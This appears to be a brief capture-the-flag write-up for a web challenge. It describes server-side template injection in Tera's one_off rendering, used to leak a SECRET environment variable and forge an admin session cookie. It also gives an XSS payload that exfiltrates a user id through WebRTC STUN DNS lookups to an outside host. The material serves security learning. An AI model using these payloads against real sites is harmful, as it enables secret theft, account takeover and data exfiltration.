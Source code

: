 + https://tera.netlify.app/docs/#templates
+ SSTI in `one_off` function in Tera when rendering "space"
```
  ctx.tera.insert(
    "space",
    &Tera::one_off(&user.space, &ctx.tera, true).unwrap_or_else(|_| user.space.clone()),
);
ctx.tera.insert("id", &id);
utils::render(tera, "space.html", ctx.tera).into_response()
```
+ When I printed out the template context with {{ __tera_context }}, I got:
  ```
  { "user": { "followers": [], "following": [], "id": "af787749-d532-4d37-94a6-2d6bc4201f63", "name": "lollol", "pass": "", "space": "{{ __tera_context }}" } }
  ```
+ use SSTI to leak the secret for session cookie with {{ get_env(name="SECRET") }}. With the secret and the user ID of admin, we can forge a session cookie to login as admin.
+ WebRTC: https://www.w3.org/TR/webrtc-nv-use-cases/
  WebRTC is an open framework for the web that enables Real-Time Communications (RTC) capabilities in the browser.
+ craft a minimal payload that would do DNS request for the STUN server I specify
```
<script>
async function a(){
    c={iceServers:[{urls:"stun:{{user.id}}.x.cjxol.com:1337"}]}
    (p=new RTCPeerConnection(c)).createDataChannel("d")
    await p.setLocalDescription()
}
a();
</script>
```


https://ctftime.org/writeup/37702
